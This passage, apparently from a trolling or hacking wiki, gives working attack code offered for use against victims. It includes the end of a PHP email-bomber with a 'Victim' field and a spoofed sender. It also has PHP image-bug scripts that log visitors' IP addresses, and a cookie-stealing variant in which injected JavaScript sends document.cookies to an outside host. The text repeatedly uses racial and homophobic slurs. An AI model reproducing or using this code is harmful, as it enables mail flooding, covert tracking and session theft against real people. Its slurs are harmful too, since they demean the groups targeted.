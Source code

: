                 mail($_POST["email"], $iloled,$rofl,head());
             } // (the second for loop) defines one cycle
             echo("Done $i loops of $spam<br>"); //we're done
          }
       echo("Complete."); 
       }
       else {
     /* if the form isn't filled out show it. also, mess around with this  part any way you like. */
    ?>
    <form method="post" action="">
       Victim: <input type="text" size="28" name="email"><br>
       Message title: <input type="text" size="28"
     name="message"><br>
       Sender (spoof it): <input type="text" size="28"
     name="sender"><br>
       Message body: <textarea name="body" cols="28"
     rows="5"></textarea><br>
       Emails per cycle (default 10): <input type="text" size="28"
     name="spams" value="10"><br>
       Cycles (default 10):<input type="text" size="28"
     name="cycles" value="10"><br>
    <input type="submit" name="submit" value="Click for lulz">
    </form>
    <?php 
    }
    ?>

### Image bugs  ###

Pretty fucking simple, really. You insert the following into an e-mail or something: 
<pre><img src="http://yoursite.com/yourphpfile.php"></pre>

Then in iplulz.php on your server (or whatever you call it), put this code: 
_PROTIP: Make a directory on your server called niggerimage.png or any image name, then save the code as index.php in the directory._
    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_SERVER['REMOTE_ADDR'] . " fell for it lol\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>
User gets the image, you get their IP added to a list. EVERYONE WINS
Also, can steel cookies in dat way:
    <?PHP
    $the_image = "yourimagehere.jpg";
    $ip_lister = fopen("ip.list", "a+");
    fwrite($ip_lister, $_GET['d0ngz'] . " nigger\n");
    fclose($ip_lister);
    if (!strncasecmp(substr($the_image, strlen($the_image) - 4), ".jpg"))   
    $image_mime = "jpeg";
    else $image_mime = substr($the_image, (strrpos($the_image, '.') + 1));
    header("Content-Type: image/$image_mime");
    echo file_get_contents($the_image);
    ?>
And in email or whatevastuff put
<pre><script type="text/javascript">
document.write('<img src="http://niggerz.com/fag.php?d0ngz=' + document.cookies);
</script></pre>